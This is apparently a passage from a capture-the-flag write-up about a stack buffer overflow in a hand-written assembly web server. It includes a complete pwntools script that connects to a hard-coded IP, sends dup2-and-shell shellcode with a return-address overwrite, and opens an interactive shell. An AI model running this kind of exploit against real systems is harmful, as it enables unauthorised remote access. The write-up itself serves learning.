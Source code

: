         enter 1000, 0

    read_req_path_start:

        mov rax, 0          ; sys_read
        mov rdi, [sockfd]   ; read from client
        lea rsi, [rbp-1000]   ; store in req_path
        mov rdx, 1024       ; read only 1 line (<=1 KB)
        syscall
    ...
        leave
        ret
    ```
3. Pwn:
    ```python
    from pwn import *

    r = remote("59.124.168.42", 8001)
    e = ELF('./server.out')

    # bss
    bss = e.bss()
    req_path = bss + 144 + 256
    sockfd = bss + 144 + 256 + 128 + 8 + 8

    # shellcode
    s = f"""
        mov rsi, 2
        mov rdi, [{sockfd}]
    dup2:
        mov rax, 33
        syscall
        dec rsi
        jns dup2
    """ + shellcraft.amd64.sh()

    # payload
    p = b"GET /" + asm(s, arch='amd64')
    p += (1000 - len(p) + 8) * b'p'  # padding
    p += p64(req_path + 2) # return address

    r.sendline(p)
    r.interactive()
    ```
4. After getting the shell, there was only a `/bin/sh` for you, but you were able to list and read files using built-in commands and wildcard:
    ```bash
    $ ls
    sh: 1: ls: not found
    